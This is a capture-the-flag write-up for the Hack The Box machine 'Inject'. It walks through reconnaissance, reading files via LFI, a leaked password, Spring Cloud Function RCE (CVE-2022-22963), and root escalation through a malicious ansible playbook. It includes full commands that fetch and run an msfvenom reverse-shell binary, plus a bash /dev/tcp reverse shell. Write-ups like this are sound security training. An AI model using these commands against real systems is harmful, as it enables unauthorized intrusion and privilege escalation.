









# Inject

## Info

| OS | Points | Difficulty | Creator |
|:-:|:-:|:-:|:-:|
| Linux | 20 | Easy | rajHere |



## Contents

Highlighted sections are the ones that directly led to advancing access.

1. [Reconnaissance](#reconnaissance)
2. [Exploiting LFI](#exploiting-lfi)
3. [Spring Framework](#spring-framework)
4. [RCE to Reverse Shell](#rce-to-reverse-shell) - **Initial Foothold**
5. [Pivoting](#pivoting) - **User Flag**
6. [LinPEAS](#linpeas)
7. [Ansible](#ansible)
8. [Evil Playbook](#evil-playbook) - **Root Flag**

## Reconnaissance 

#### Nmap

- As always we start with a port scan to see what we're working with.

`nmap -sV -sC -p- --min-rate 5000 -vvv -oN out.nmap 10.10.11.204`

```
Nmap scan report for 10.10.11.204
Host is up, received echo-reply ttl 63 (0.15s latency).
Scanned at 2023-03-13 13:59:16 EDT for 25s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDKZNtFBY2xMX8oDH/EtIMngGHpVX5fyuJLp9ig7NIC9XooaPtK60FoxOLcRr4iccW/9L2GWpp6kT777UzcKtYoijOCtctNClc6tG1hvohEAyXeNunG7GN+Lftc8eb4C6DooZY7oSeO++PgK5oRi3/tg+FSFSi6UZCsjci1NRj/0ywqzl/ytMzq5YoGfzRzIN3HYdFF8RHoW8qs8vcPsEMsbdsy1aGRbslKA2l1qmejyU9cukyGkFjYZsyVj1hEPn9V/uVafdgzNOvopQlg/yozTzN+LZ2rJO7/CCK3cjchnnPZZfeck85k5sw1G5uVGq38qcusfIfCnZlsn2FZzP2BXo5VEoO2IIRudCgJWTzb8urJ6JAWc1h0r6cUlxGdOvSSQQO6Yz1MhN9omUD9r4A5ag4cbI09c1KOnjzIM8hAWlwUDOKlaohgPtSbnZoGuyyHV/oyZu+/1w4HJWJy6urA43u1PFTonOyMkzJZihWNnkHhqrjeVsHTywFPUmTODb8=
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIUJSpBOORoHb6HHQkePUztvh85c2F5k5zMDp+hjFhD8VRC2uKJni1FLYkxVPc/yY3Km7Sg1GzTyoGUxvy+EIsg=
|   256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICZzUvDL0INOklR7AH+iFw+uX+nkJtcw7V+1AsMO9P7p
8080/tcp open  nagios-nsca syn-ack ttl 63 Nagios NSCA
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Says here that `Nagios NSCA` is running on port `8080`:

> NSCA is a Linux/Unix daemon allows you to integrate passive alerts and checks from remote machines and applications with Nagios. Useful for processing security alerts, as well as redundant and distributed Nagios setups.
> [Source](https://exchange.nagios.org/directory/Addons/Passive-Checks/NSCA--2D-Nagios-Service-Check-Acceptor/details)

I don't really know what this really is but its served over `HTTP` so lets just visit that page and try to find a version number.

#### Nagios NSCA

The page has three interesting buttons:
- Upload which leads to `/upload`
- Blogs -> `/blogs`
- Sign Up -> `/register`

Register Button
- Leads to a page that says "Under Construction"
- Nothing super interesting here, move on.

Blogs
- Three blog summary cards displayed
- Each card has the following:
	- Thumbnail
	- Date
	- Title
	- Author name
	- Number of Comments
- All of the cards link back to the `/blogs` page so not much more to see here.
- Maybe the stuff we upload through `/upload` shows up here later?

Upload
- Starting BurpSuite to catch any interesting information in the requests.
- pressing the upload buttons sends a `POST` request with the file to `/upload`
- Upon uploading a file the page shows "Only image files are accepted!"



- This is either checking the file header or just the extension.
- Tried uploading a text file with a `.png` extension
	- No Issues, perfect! We can probably upload a revshell
	- We have unrestricted uploads.
	- Now we need to access the file.
	- Page now shows a "View your Image" link that takes us to the uploaded file.
- "View your Image" -> `/show_image?img=text.png`
	- This could have LFI
	- returns `500` - "Internal Server Error", maybe because its a text file?
	- Uploading an actual image and viewing it works fine
	- Tried testing for LFI  - `http://10.10.11.204:8080/show_image?img=../../../../../../../etc/passwd`
		- Firefox can't render this as an image but we can see it in BurpSuite

- There are two users that have a shell other than `root`, making note of these for pivoting later.

## Exploiting LFI 

After trying many arguments for the `img` get param, I found that giving it a directory will cause it to list its contents.
- ex: `/show_image?img=` -> shows us the `test.png` file I had just uploaded

We are able to discover the following paths using this technique:
- `/var/www/WebApp/src/main/uploads/test.png`
- `/home/phil/user.txt` - can't read it using `www-data` user
- `/home/frank/.m2/settings.xml` - has creds for phil but they don't work for ssh.
	- `phil:DocPhillovestoInject123`
- `/var/www/WebApp/src/main/`

Source code paths:
- `/var/www/WebApp/src/main/java/com/example/WebApp/user/User.java`
- `/var/www/WebApp/src/main/java/com/example/WebApp/user/UserController.java`
	- Code that handles `/upload` and `/show_image`
- `/var/www/WebApp/src/main/java/com/example/WebApp/WebAppApplication.java`

## Spring Framework

From `UserController.java`, the `import` statements show that the app is using Spring Framework. I looked up how to find the version number to check for CVEs:
- `/show_image?img=../../../../../../var/www/WebApp/pom.xml`




There are 8 dependencies so I looked through the file and googling for known vulnerabilities in all the dependencies, here is the first one I got a hit on:


Found this [CVE-2022-22963](https://spring.io/security/cve-2022-22963)

## RCE to Reverse Shell

Now to the exploitation phase. Was able to find instructions on this github [repo](https://github.com/me2nuk/CVE-2022-22963) to get RCE.

1. Run a listener on the attacker machine: 
	- `nc -lvnp 31337`
2. make a revshell ELF
	- `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=9000 -f elf > shell.elf`
	- I could have used a bash payload but these are reliable
3. Run a python http server
	- `python3 -m http.server`
4. Download the shell executable to the machine
```
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget -O /tmp/revshell http://<your_ip>:8000/shell.elf")' --data-raw 'data' -v
```
5. Make it executable and run
```
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/revshell; /tmp/revshell")' --data-raw 'data' -v
```

At this point I put my ssh public key into the compromised user's `.ssh/authorized_keys` to get a prettier shell.

`whoami` returns `frank`

## Pivoting

I couldn't log into phil's account earlier using ssh but I should probably be able to use the creds I found earlier for something.

This box is set up to be hacked so everything here is put there for a reason.

`su phil` works with the password from `/home/frank/.m2/settings.xml`

Now I can get the user flag.
- `cat user.txt`
## LinPeas

Now I'm looking to escalate my privileges.

First I checked if I can run anything as sudo with `sudo -l`, nothing.

Now running `linpeas`, going through the file nothing really caught my eye.

Running `pspy` shows that there is an ansible playbook being run periodically by root.
- `/opt/automation/tasks/playbook_1.yml`


## Ansible

> Ansible Playbooks offer a repeatable, re-usable, simple configuration management and multi-machine deployment system, one that is well suited to deploying complex applications. [source](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html)

Here is the playbook that root is running

```
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

This ansible module controls `systemd` units:
- `name:` - the name of the unit
- `enabled:` - whether the unit should start on boot
- `state: started` - ansible will start the unit if it is stopped. 

## Evil Playbook

My current user cannot write to `playbook_1.yml` but the directory is writable by members of the `staff` group. I can't edit the file but I can entirely replace it.



I found a malicious playbook [here](https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/ansible) and used it as reference to write this one: 

```
- name: Evil playbook
  hosts: localhost 
  tasks:
    - name: execute
      shell: bash -c 'bash -i >& /dev/tcp/10.10.16.3/9000 0>&1'
```

Root is scheduled to clear the `/opt/automation/tasks` directory and put the original task file in it. There is a little bit of a delay before it is executed so that's when the swap should happen.

Now we run a listener and wait:
